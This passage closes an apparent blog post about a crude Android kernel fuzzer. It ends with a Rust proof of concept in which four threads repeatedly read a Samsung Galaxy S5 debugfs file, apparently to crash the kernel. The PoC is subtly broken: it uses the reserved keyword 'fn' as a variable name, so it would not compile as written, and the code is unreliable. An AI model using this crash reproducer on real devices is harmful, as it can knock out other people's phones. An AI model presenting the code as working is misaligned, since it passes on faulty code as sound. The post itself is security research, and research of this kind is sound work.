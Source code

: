 What a top tier PoC!

#### Next bug?

So now that we have root caused the bug, we should blacklist the specific file we know caused the bug and try again. Potentially this bug was hiding another.

Nope, nothing else, the S5 is officially secure and fixed of all bugs.

Sadly this fuzzer is on the way out. It used to work almost universally on every phone, and still does if selinux is set to permissive. But sadly as time has gone on these bugs have become hidden behind selinux policies that prevent them from being reached. It now only works on a few phones that I have rather than all of them, but the fact that it ever worked is probably the best part of it all.

There is a lot to improve this fuzzer, but the goal of this article was to make a terrible fuzzer, not a reasonable one. The big things to add to make this better

*   Make it perform random `ioctl()` calls
*   Make it attempt to `mmap()` and use the mappings for these devices
*   Actually understand what the file expects
*   Use multiple processes or something to let the fuzzer continue to run when it gets stuck
*   Run it for more than 1 minute before giving up on a phone
*   Make better blacklists/whitelists

In the future maybe I’ll exploit one of these bugs in another blog, or root cause them in source.

_Try it out on your own test phones (not on your actual phone, that’d probably be a bad idea). Let me know if you have any silly bugs found by this to add to the wall of shame._

#### G900F (Exynos Galaxy S5) [G900FXXU1CRH1] (August 1, 2017)

**PoC**

```
use std::fs::File;
use std::io::Read;

fn thrasher() {
    // Buffer to read into
    let mut buf = [0x41u8; 8192];

    let fn = "/sys/kernel/debug/smp2p_test/ut_remote_gpio_inout";

    loop {
        if let Ok(mut fd) = File::open(fn) {
            let _ = fd.read(&mut buf);
        }
    }
}

fn main() {
    // Make fuzzing threads
    let mut threads = Vec::new();
    for _ in 0..4 {
        threads.push(std::thread::spawn(move || thrasher()));
    }

    // Wait for all threads to exit
    for thr in threads {
        let _ = thr.join();
    }
}


```
